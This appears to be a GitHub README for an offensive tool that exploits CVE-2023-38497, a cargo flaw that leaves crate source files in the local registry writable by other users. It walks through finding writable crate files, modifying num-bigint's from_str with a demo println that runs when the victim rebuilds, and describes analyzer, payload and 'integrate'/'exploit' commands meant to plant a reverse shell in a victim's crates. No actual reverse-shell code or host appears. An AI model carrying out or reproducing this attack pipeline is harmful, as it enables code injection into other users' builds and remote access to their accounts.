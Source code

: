 
## Description
A new vulnerability in cargo version `1.7.0` has been found as explained [here](https://blog.rust-lang.org/2023/08/03/cve-2023-38497.html).

## Step by Step

First you have to make sure your cargo version is vulnerable

`cargo --version`

Supose I have a cargo project with the following `src/main.rs` file:

```
use num_bigint::BigInt;
use std::str::FromStr;

// Silly guessing game
fn main() {
    let secret_number = BigInt::from_str("123456789");
    loop {
        println!("Make a guess: ");
        let mut guess = String::new();
        std::io::stdin()
            .read_line(&mut guess)
            .expect("Error reading stdin");
        let guess = BigInt::from_str(guess.trim());
        if guess == secret_number {
            println!("That's right");
            break;
        }
    }
}
```

If I run the program:
```
cargo run
Make a guess:
20
Make a guess:
123456789
That's right!
```

Nothing wrong here.

Next, for all installed crates in your system, filter the ones whose permissions have bad configuration, that is, can be written by group or any other machine users

`find ~/.cargo/registry/src/* -type f -writable -print | egrep "*\.rs"`

This will yield a list of all vulnerable rust source files. From these chose the file that is suitable for your attack, which should be one in which there is defined a method that is used in the source code of the target cargo project.

And from the listing above I find the following vulnerable file: 

`$HOME/.cargo/registry/src/index.crates.io-.../num-bigint-0.1.44/src/bigint.rs`

Which as promised previously has the following permissions: `-rw-rw-r--`

Therefore it can be modified by any user in the same group as the cargo project owner, that's scary. But imagine any user could write that file, well there are crates with such permissions.

Now you can add a new user to your machine, or use an existing one other than the project user which belongs to the same group as the user for the file we're targeting. For example that source file in my machine has the following owner and group
`atreides people`
and another user I have, returns the following from running `id` command on him:

`uid=54322(bob) gid=54331(bob) groups=54331(bob),1000(people)`

Now we know user `bob` can write our target file and any other with such permissions. Switch to `bob` and follow up.

Taking a look into our guessing game we can see it is being used the `from_str` method from `BigInt` struct. That could be an interesting method to look at.

From the target file I've extracted this piece of code: 
```
impl FromStr for BigInt {
    type Err = ParseBigIntError;

    #[inline]
    fn from_str(s: &str) -> Result<BigInt, ParseBigIntError> {
        BigInt::from_str_radix(s, 10)
    }
}
```

Now, what if you make it look like this
```
impl FromStr for BigInt {
    type Err = ParseBigIntError;

    #[inline]
    fn from_str(s: &str) -> Result<BigInt, ParseBigIntError> {
        println!("Message from beyond");
        BigInt::from_str_radix(s, 10)
    }
}
```

And rerun it cleaning the target directory:
```
cargo clean && cargo run
Make a guess:
20
Message from beyond
Make a guess:
123456789
Message from beyond
That's right!
```

Woah! Imagine you are writting your cargo project and you get the following messages.

Note that this will only happen whenever the target directory has been deleted previously, that is, cargo has to compile the crate after you modify the source file.

Now, this is only a demo on how to exploit this vulnerability, but imagine if you place any sort of payload inside a source file. This repo aims to establish reverse shell connection with the user's account whenever he runs a cargo project.

This is a mayor vulnerability if you consider that there could be cargo installations with root privileges so the placed payload would be executing with such permissions.

# Project Structure

In this project you will find the following utilities:

## Vulnerability analyzer

Searches accross the local cargo archive and a target cargo project to find all specific methods that could be exploited in the target's source code.
If there's a method in particular you'd like to exploit or you don't have read permissions on the target cargo project, skip the vanalyzer in the attack pipeline.

```
./vanalyzer/run.sh <target-project-path> <target-username>
```

## Available payloads

All payload types (reverse shell mainly and other malware) that can be placed inside a target crate source code. All available payloads as of now are:

- Reverse Shell (first that will be implemented)

## Integration

Mock shell that receives commands to run the vulnerability analyzer and
take one of the payloads listed above and a selected method to exploit from the vulnerability analyzer and integrates (copy and paste) the payload into the source code.

# Attack pipeline
1. Run the mock shell (cargo project)

`cargo run`

2.
- Via vanalyzer +  integrate commands

`vanalyzer <cargo_project> <target_username>`

`integrate <file_no> <method_no> <payload>`

- Via exploit

`exploit <path_to_local_archive_crate_file> <method's_name> <payload>`

3. Run ok command

`ok`
